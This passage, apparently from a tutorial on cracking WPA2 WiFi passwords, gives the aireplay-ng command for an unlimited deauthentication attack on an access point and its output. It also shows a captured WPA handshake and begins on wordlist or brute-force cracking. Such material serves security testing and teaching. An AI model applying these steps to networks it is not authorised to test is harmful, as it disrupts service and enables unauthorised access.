 While leaving the previous `airodump-ng` command running in a separate tab or window, open another tab to run the deauthentication command. The command is as follows:

```
$ aireplay-ng -0 0 -a 7C:B1:DF:B9:12:59 wlan0
```

The BSSID we specify is that of the access point. It is possible to limit the amount of deauthentication frames to send, but in this case we are sending an infinite amount specified with `-0 0`.

The output for the `aireplay-ng` command will look like this:

```
03:24:06  Waiting for beacon frame (BSSID: 7C:B1:DF:B9:12:59) on channel 7
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
03:24:06  Sending DeAuth (code 7) to broadcast -- BSSID: [7C:B1:DF:B9:12:59]
03:24:07  Sending DeAuth (code 7) to broadcast -- BSSID: [7C:B1:DF:B9:12:59]
03:24:07  Sending DeAuth (code 7) to broadcast -- BSSID: [7C:B1:DF:B9:12:59]
03:24:08  Sending DeAuth (code 7) to broadcast -- BSSID: [7C:B1:DF:B9:12:59]
03:24:08  Sending DeAuth (code 7) to broadcast -- BSSID: [7C:B1:DF:B9:12:59]
03:24:09  Sending DeAuth (code 7) to broadcast -- BSSID: [7C:B1:DF:B9:12:59]
03:24:09  Sending DeAuth (code 7) to broadcast -- BSSID: [7C:B1:DF:B9:12:59]
03:24:10  Sending DeAuth (code 7) to broadcast -- BSSID: [7C:B1:DF:B9:12:59]
03:24:10  Sending DeAuth (code 7) to broadcast -- BSSID: [7C:B1:DF:B9:12:59]
03:24:11  Sending DeAuth (code 7) to broadcast -- BSSID: [7C:B1:DF:B9:12:59]
03:24:11  Sending DeAuth (code 7) to broadcast -- BSSID: [7C:B1:DF:B9:12:59]
03:24:11  Sending DeAuth (code 7) to broadcast -- BSSID: [7C:B1:DF:B9:12:59]
```

Your terminal screen will continue to fill with these messages. Keep the command running until you see a `WPA handshake: XX:XX:XX:XX:XX:XX` message on the upper right of the first window running the `airodump-ng` command. That window will look as follows (notice the message on the upper right):

```
 CH  7 ][ Elapsed: 1 min ][ 2019-09-28 03:25 ][ WPA handshake: 7C:B1:DF:B9:12:59

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 7C:B1:DF:B9:12:59  -44  96      871       96    0   7  130  WPA2 CCMP   PSK  Lower The Rent   

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe

 7C:B1:DF:B9:12:59  49:12:C4:53:EF:4A  -41    1e- 1      0       78
```

If you see the message, you have successfully captured the handshake. The last step left to do now is to crack this handshake and reveal the password in plaintext.

## Cracking the password

Recall that we saved our `airodump-ng` scan to a file named `SCAN_OUTPUT`. You'll see several files in the directory by the same name, but you'll only need the one with a `.cap` extension. From here, there are two approaches to cracking the password. You can use a wordlist and see if one of the passwords in the wordlist is the actual password to the access point, or you can opt to use a program that generates passwords and attempts each one (brute forcing).
